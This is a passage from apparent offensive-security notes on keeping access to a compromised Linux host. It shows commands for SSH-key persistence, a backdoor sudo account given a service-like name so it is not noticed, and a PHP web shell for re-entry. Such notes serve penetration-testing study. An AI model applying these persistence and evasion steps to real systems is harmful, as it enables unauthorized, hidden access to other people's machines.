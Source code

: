 Generating SSH Keys on the Compromised Machine:

```
1. Run the command (compromised machine):
    ssh-keygen

2. Copy the SSH private key content

3. Paste the private key content into a file on the attacker machine

4. Change the permissions of the private key file (attacker machine):
    chmod 600 <private_key_file>

5. Login to the target using the command:
    ssh -i <private_key_file> <username>@<IP|Hostname>
```

### Creating a Privileged Local Account
If you have root permissions, then you can create a local account that you can maintain
access to if a previously compromised user's password is changed, or the initial compromise
method is patched.

When creating a new user account, you should use a username that is unlikely to be noticed
easily, like the name of a service that requires a user such as "ftp", "postgres", or
"mysql", amongst others. (Just make sure that the username you want to use does NOT already
exist by checking the `/etc/passwd` file.)

Create a Privileged Local Account:

```
1. Create a new user account with a username that blends in:
    useradd -m -s /bin/bash <username>

2. Add the created user to the sudo group:
    usermod -aG sudo <username>

3. Create a password for the newly created user:
    passwd <username>

4. You should now be able to login as that user via SSH, however you might want to
   add your SSH public key to the 'authorised_keys' in the users home directory as
   mentioned in the previous persistence method.
```

### Persistence via Web Shells
If the target has a website running on the host that uses PHP, you could add a PHP web shell
into the websites root directory that you can access via the browser to gain a reverse shell
or execute specific commands on the target.

This would also work with websites that use executable files in the webiste such as .aspx
files.

A drawback of this method is that, if the sysadmin has configured it correctly, the website
will most likely not be running as root and instead as a non-privileged user such as
`www-data`. This means that you would have to have a way to escalate your privileges after
gaining access to the target again. To do this, you could create a privileged local account,
as mentioned in the previous persistence method, that you can use to easily get root
permissions.
